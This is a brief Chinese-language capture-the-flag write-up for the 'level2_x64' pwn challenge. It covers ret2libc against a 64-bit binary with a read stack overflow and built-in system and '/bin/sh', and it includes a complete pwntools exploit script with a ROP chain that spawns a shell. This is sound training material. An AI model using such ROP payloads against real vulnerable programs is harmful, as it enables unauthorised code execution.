

# 知识点

ret2libc


# 题目分析

1. 检查保护情况，64位程序，开启NX保护。

   ```bash
       Arch:     amd64-64-little
       RELRO:    No RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x400000)
   ```

2. 拖入IDA分析，main函数直接调用后门函数，存在read栈溢出漏洞。

   

3. 继续分析，发现题目提供了system函数和/bin/sh字符串。直接ret2libc即可。

   


# EXP

```python
from pwn import *

context(arch = 'amd64', os = 'linux', log_level = 'debug')

io = process('./level2_x64')
elf = ELF('./level2_x64')

system = elf.sym['system']
binsh = elf.search('/bin/sh').next()

pop_rdi = 0x4006b3
ret = 0x4004a1

payload = 'A' * 0x80 + 'deadbeef'
payload += p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system) + p64(0)
io.send(payload)

io.interactive()
```

